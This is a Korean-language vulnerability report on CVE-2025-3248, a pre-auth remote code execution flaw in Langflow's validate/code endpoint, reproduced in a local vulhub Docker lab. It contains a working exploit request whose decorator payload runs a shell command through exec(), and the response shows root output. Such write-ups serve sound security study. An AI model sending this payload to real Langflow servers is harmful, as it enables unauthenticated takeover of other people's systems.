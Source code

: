 # CVE-2025-3248 Langflow `validate/code` API 인증 우회 원격 코드 실행 취약점 분석 보고서

## 개요

본 보고서는 Langflow 1.2.0 버전 이하에서 발생하는 인증 우회 원격 코드 실행(Remote Code Execution, RCE) 취약점(CVE-2025-3248)에 대해 분석하고, Docker 환경에서 재현(PoC)한 결과를 문서화한 것입니다.

취약점은 `/api/v1/validate/code` 엔드포인트에서 사용자로부터 전달된 Python 코드를 `exec()` 함수를 통해 실행할 때 발생합니다. 함수 정의 시 실행되는 decorator 또는 default argument 표현식을 악용해 인증 없이 임의의 명령어를 실행할 수 있습니다.

---

## 취약점 정보

| 항목 | 내용 |
|------|------|
| CVE 번호 | CVE-2025-3248 |
| 영향받는 제품 | Langflow < 1.3.0 |
| 취약점 유형 | 인증 우회 원격 코드 실행 (Pre-auth RCE) |
| 취약점 위치 | `/api/v1/validate/code` |
| 심각도 | ★ Critical |
| 공식 패치 | [v1.3.0 릴리즈](https://github.com/langflow-ai/langflow/releases/tag/1.3.0) |

---

## 실습 환경 구성

```bash
git clone https://github.com/내아이디/vulhub.git
cd vulhub/langflow/CVE-2025-3248
docker compose up -d

접속 주소: http://localhost:7860

기본 계정: administrator / vulhub

```

## Burp Suite 요청

POST /api/v1/validate/code HTTP/1.1
Host: localhost:7860
Content-Type: application/json

{
  "code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"
}

```

## 응답 결과

```bash
{
  "function": {
    "errors": [
      "b'uid=0(root) gid=0(root) groups=0(root)\\n'"
    ]
  }
}
